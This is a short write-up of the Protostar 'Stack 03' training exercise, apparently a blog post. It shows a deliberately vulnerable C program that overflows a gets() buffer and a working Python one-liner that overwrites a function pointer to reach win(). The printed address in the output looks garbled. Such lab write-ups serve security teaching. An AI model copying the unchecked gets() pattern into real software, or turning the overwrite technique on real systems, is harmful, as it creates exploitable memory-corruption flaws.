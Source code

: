 # Stack 03 #

> Stack3 looks at environment variables, and how they can be set, and 
> overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{{< / highlight >}}

This again is similar to all the prvious stack examples. This time however we
need to figure out what to write into `fp`. `fp` is a function pointer and it's
our job to make it point to the `win` function. First let's determine where in memory
this function lives. We are told that `objdump` and `gdb` can help us here, so let's make
use of that information.

{{< highlight console >}}
protostar:/opt/protostar/bin$ objdump -d ./stack3 | grep win
08048424 <win>:
protostar:/opt/protostar/bin$ python -c 'print "a"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x0080848424
code flow successfully changed
{{< / highlight >}}

`objdump -d` disassembles the code, and we `grep` for the `win` function. This gives us
the address of `win`. Using the previous technique we pipe our special string into
`stack3` and are greeted with success.

# Stack 04 #
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
